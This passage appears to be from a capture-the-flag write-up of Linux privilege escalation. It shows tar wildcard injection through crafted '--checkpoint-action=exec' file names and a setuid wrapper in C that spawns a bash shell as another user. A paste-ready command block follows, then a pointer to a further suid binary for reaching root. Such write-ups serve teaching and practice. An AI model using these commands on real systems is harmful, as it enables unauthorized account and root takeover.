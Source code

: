 Because of the * in the command we can craft specific filenames that /bin/tar will see as options. 

>```bash
>echo 1 > --checkpoint=1;
>echo 2 > --checkpoint-action=exec=sh\ shell.sh;
>```

This will execute shell.sh, which compiles and chmods a wrapper as sean for us:

>```bash
>#!/bin/sh
>gcc -o /tmp/wrap /tmp/a.c
>chmod ugo+s /tmp/wrap
>/usr/local/bin/backup
>```

First prepare a.c:

>```C
>int main(void){
>	setresuid(1002, 1002, 1002);
>	system("/bin/bash");
>	}
>```

To paste in a terminal:

>```
>cd /usr/share/nginx/serverchecker/storage;
>echo 1 > --checkpoint=1;
>echo 2 > --checkpoint-action=exec=sh\ shell.sh;
>echo '#!/bin/sh' > shell.sh;
>echo 'gcc -o /tmp/wrap /tmp/a.c'>> shell.sh; 
>echo 'chmod ugo+s /tmp/wrap' >> shell.sh;
>cd /tmp;
>echo 'int main(void){' > a.c;
>echo 'setresuid(1002, 1002, 1002);' >> a.c;
>echo 'system("/bin/bash");' >> a.c;
>echo '}' >> a.c;
>/usr/local/bin/backup;
>/tmp/wrap;
>newgrp sean;
>```

## sean

There is another suid binary in the same location as the previous ones, we can use it to escalate to root.

>```bash
>$ file restore
>restore: ELF 64-bit LSB  executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=f8c768078fb1214a9777e6a6a50fef30061716d7, not stripped
>```
